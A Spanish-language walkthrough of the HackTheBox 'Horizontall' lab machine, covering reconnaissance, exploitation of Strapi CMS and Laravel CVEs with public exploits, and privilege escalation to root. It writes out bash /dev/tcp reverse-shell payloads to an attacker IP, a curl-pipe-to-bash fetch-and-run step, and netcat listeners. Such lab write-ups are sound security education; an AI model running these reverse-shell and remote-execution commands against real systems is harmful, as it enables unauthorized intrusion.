## Introducción
El día de hoy veremos la máquina Horizontall de la plataforma de HackTheBox. Se trata de una máquina Linux de nivel fácil que aborda los siguientes conceptos:

- Infomation Leakage
- Port Forwarding
- Strapi CMS Exploitation
- Laravel Exploitation

## Resolución

# Reconocimiento
Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:
```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 10.129.73.39 -oN puertos.txt
```
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Identificamos 2 puertos abiertos. Los servicios más relevantes para nuestra explotación son: SSH (22) y HTTP (80).

### Puerto 80 - HTTP
Al acceder al puerto 80, el servidor nos redirige automáticamente a `http://horizontall.htb`. Procedemos a añadir el dominio a nuestro archivo `/etc/hosts`:

```bash
echo "10.129.73.39 horizontall.htb" | sudo tee -a /etc/hosts
```



La página web principal no presenta funcionalidades aparentes de interés inmediato. Sin embargo, al inspeccionar el código fuente y analizar los archivos JavaScript mediante las herramientas de desarrollo del navegador, identificamos una referencia a un subdominio interesante:



Descubrimos el subdominio `api-prod.horizontall.htb`, el cual añadimos igualmente a nuestro archivo `/etc/hosts`:

```bash
echo "10.129.73.39 api-prod.horizontall.htb" | sudo tee -a /etc/hosts
```

# Explotación

### Enumeración de la API
Al acceder a `http://api-prod.horizontall.htb`, confirmamos que se trata de una API REST. Procedemos a enumerar los endpoints disponibles utilizando `gobuster`:

```bash
gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```



La enumeración revela varios endpoints interesantes, destacando el directorio `/admin`:



### Identificación de Strapi CMS
Al acceder a `/admin`, nos encontramos con un panel de autenticación de **Strapi CMS**. Para identificar la versión exacta del CMS, accedemos al endpoint `/admin/init`:



Identificamos la versión `Strapi 3.0.0-beta.17.4`, la cual es vulnerable a múltiples CVEs críticos:
- **CVE-2019-18818**: Bypass de autenticación
- **CVE-2019-19609**: Remote Code Execution no autenticado

### Explotación de Strapi CMS
Localizamos un exploit público en ExploitDB que aprovecha estas vulnerabilidades: https://www.exploit-db.com/exploits/50239

Ejecutamos el exploit exitosamente:



Sin embargo, confirmamos que se trata de un **Blind RCE** (no visualizamos el output de los comandos ejecutados). Al intentar establecer una reverse shell tradicional, no obtenemos respuesta:



### Estableciendo Reverse Shell
Para solventar la limitación del Blind RCE, implementamos un método alternativo mediante la descarga y ejecución de un payload remoto:

**Paso 1:** Creamos un archivo `index.html` con el payload de reverse shell:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.125/443 0>&1
```



**Paso 2:** Levantamos un servidor HTTP con Python:

```bash
python3 -m http.server 80
```



**Paso 3:** Ejecutamos el siguiente comando en la máquina víctima mediante el exploit:

```bash
curl http://10.10.14.125/index.html | bash
```



**Paso 4:** Nos ponemos en escucha con `netcat`:

```bash
nc -lvnp 443
```

Obtenemos acceso exitoso al sistema como el usuario `strapi`:



La flag de usuario se encuentra en `/home/developer/user.txt`:



# Escalada de privilegios

Durante la enumeración del sistema en busca de binarios SUID, capacidades, permisos sudo y otras configuraciones, no identificamos vectores de escalada evidentes. Sin embargo, al enumerar los servicios activos en puertos locales, descubrimos que el puerto 8000 está escuchando únicamente en localhost:

```bash
netstat -tulpn | grep LISTEN
```



### Port Forwarding
Para acceder a este servicio interno, utilizamos **Penelope** (https://github.com/brightio/penelope), una herramienta que facilita la gestión de shells y permite realizar port forwarding de manera sencilla.

Establecemos el port forwarding mediante la funcionalidad `portfwd` de Penelope:

```bash
portfwd add 8000 8000
```



### Identificación de Laravel
Al acceder a `http://127.0.0.1:8000` desde nuestra máquina atacante, identificamos una aplicación **Laravel** en lo que parece ser su página de instalación por defecto:


Procedemos a enumerar directorios con `gobuster`:

```bash
gobuster dir -u http://127.0.0.1:8000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

Descubrimos el directorio `/profiles`, el cual devuelve un código de estado HTTP 500 (Internal Server Error):



### Exposición de Información Sensible
Al acceder a `/profiles`, observamos una página de excepción de Laravel que revela información crítica debido a que la variable de entorno `APP_DEBUG` está configurada en `True`. Esta configuración insegura expone detalles internos de la aplicación, incluyendo la versión exacta de Laravel:



Identificamos **Laravel v8.x**, versión vulnerable a **CVE-2021-3129**, una vulnerabilidad de Remote Code Execution no autenticado que explota el modo debug de Laravel mediante deserialización insegura de objetos PHP.

### Explotación de Laravel (CVE-2021-3129)
Utilizamos un exploit público de GitHub: https://github.com/nth347/CVE-2021-3129_exploit

Ejecutamos el exploit para obtener una shell con privilegios de root:

```bash
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'bash -c "bash -i >& /dev/tcp/10.10.14.125/9001 0>&1"'
```


Nos ponemos en escucha en nuestra máquina atacante:

```bash
nc -lvnp 9001
```

Recibimos una shell con privilegios de root. La flag de root se encuentra en `/root/root.txt`.

¡Ya somos root! 🎉